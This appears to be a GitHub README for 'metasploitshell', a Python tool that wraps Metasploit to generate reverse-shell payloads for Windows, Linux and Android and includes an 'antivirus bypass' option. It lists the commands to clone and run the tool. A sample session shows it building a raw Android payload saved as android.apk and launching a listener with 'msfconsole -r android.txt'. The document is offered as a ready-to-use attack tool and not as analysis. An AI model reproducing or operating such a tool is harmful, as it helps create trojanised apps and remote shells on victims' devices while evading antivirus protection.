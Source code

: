 # metasploitshell
made by khilesh
# simple reverse shell gerneter tool

# commands
        git clone https://github.com/khilesh114/metasploitshell
        cd metasploitshell
        sudo python3 msv.py

──(codex㉿kali)-[~/Desktop/projects/metasploitshell]
└─$ python3 msv.py
metasploit fremwork
enter ip addres ex 127.0.0.1
enter port ex 8080
windows [1]
linux   [2]
android [3]
antivirus bypass [4]
exit tool  [5]
enter a number :-3

 
                   .___             .__    .___
_____    ____    __| _/______  ____ |__| __| _/
\__  \  /    \  / __ |\_  __ \/  _ \|  |/ __ | 
 / __ \|   |  \/ /_/ | |  | \(  <_> )  / /_/ | 
(____  /___|  /\____ | |__|   \____/|__\____ | 
     \/     \/      \/                      \/ 

Enter ip address :-127.0.0.1
Enter a port nomber  :-8080
[-] No platform was selected, choosing Msf::Module::Platform::Android from the payload
[-] No arch selected, selecting arch: dalvik from the payload
No encoder specified, outputting raw payload
Payload size: 10231 bytes
Saved as: android.apk
Metasploit tip: Save the current environment with the save command, 
future console restarts will use this environment again
                                                  
 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\
=[ metasploit v6.3.42-dev                          ]
+ -- --=[ 2375 exploits - 1232 auxiliary - 416 post       ]
+ -- --=[ 1391 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

[*] Processing android.txt for ERB directives.
msf6 > exit
                                                                                                                          
#┌──(codex㉿kali)-[~/Desktop/projects/metasploitshell]
any error exit msfconsole and run command
# └─$ msfconsole -r android.txt



